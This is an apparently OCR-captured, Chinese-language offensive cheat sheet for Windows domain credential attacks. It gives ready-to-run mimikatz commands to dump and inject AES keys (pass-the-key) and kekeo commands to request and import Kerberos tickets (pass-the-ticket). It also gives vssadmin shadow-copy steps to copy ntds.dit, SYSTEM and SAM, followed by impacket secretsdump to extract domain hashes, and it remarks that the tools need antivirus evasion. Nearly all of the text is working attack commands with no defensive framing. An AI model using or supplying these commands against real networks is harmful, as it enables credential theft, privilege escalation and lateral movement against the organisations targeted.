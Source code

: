 ### pass the key

需要免杀：

> mimikatz "privilege::debug" "sekurlsa::ekeys"  获取用户的aes key
>
> mimikatz "privilege::debug" "sekurlsa::pth /user:a /domain:test.local /aes256:asdq379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c"  注入aes key
>
> dir \\\计算机名

### pass the ticket

不需要管理员权限

> kekeo "tgt::ask /user:abc /domain:test.local /ntlm:hash"

导入ticket：

> kekeo "kerberos::ptt TGT_abc@TEST.LOCAL_krbtgt~test.local@TEST.LOCAL.kirbi"

程序地址：

> https://github.com/gentilkiwi/kekeo

### ntds.dit

vssadmin 方法 >= win 2008

查询当前系统的快照

> vssadmin list shadows

创建快照

> vssadmin create shadow /for=c:
>
> 获得 Shadow Copy Volume Name 为 ``\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47``

复制 ntds.dit, copy 第一个参数为创建快照时位置:

> copy \\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\NTDS\ntds.dit c:\ntds.dit   

复制 system 和 sam

> copy \\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\system32\config\system c:\
>
> copy \\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\system32\config\sam c:\

删除快照

> vssadmin delete shadows /for=c: /quiet

获取将以上 system，sam, ntds.dit 放到 /root/ntds_cracking/ 下，运行	

> python secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/SYSTEM LOCAL

py 地址:

> https://github.com/CoreSecurity/impacket/blob/master/examples/secretsdump.py
